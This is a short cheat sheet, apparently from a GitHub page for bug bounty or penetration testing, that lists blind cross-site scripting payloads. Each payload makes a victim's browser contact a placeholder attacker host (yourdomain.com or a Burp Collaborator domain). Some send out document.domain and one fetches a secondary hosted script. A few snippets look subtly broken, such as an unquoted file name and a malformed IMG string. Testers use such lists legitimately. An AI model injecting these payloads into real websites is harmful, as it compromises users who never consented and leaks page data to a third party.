 ##### Blind XSS payloads 

*Blind XSS payloads are designed to let you know when they are triggered through a request to a server you control*

**Simple payload**:

```
<script src=//yourdomain.com></script>
```

**With secondary payload (that you host)**:

```
<script>function b(){(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yourdomain.burpcollaborator.net/" + morexss.txt);a.send();</script>
```
**Prove DOM access by sending document.domain**:

```
<script>a=new XMLHttpRequest();a.open("GET", "//yourdomain.burpcollaborator.net/" + document.domain);a.send();</script>
```

**Alternate with IMG tag**: 

```
<script>document.write("<img src='https://yourdomain.burpcollaborator.net/' + document.domain>")</script>
```




